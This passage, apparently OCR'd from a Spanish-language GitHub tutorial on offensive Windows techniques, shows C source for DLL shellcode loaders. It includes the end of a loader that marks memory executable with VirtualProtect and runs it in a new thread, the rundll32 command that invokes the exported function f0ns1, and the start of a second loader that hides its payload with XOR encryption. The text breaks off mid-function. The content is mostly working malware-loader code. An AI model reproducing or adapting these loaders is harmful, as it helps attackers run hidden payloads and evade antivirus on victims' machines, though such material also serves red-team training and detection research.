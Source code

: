```c
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return 0;
	}
}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
La ejecución del proceso: 

```
rundll32.exe base_injection_exec.dll,f0ns1
```

## DLL calc shellcode Encriptacion XOR

```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#pragma comment (lib, "user32.lib")

extern "C" {


void XOR(char * data, size_t data_len, char * key, size_t key_len) {
	int j;
	
	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}
	
__declspec(dllexport) BOOL WINAPI f0ns1(void) {	
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

```
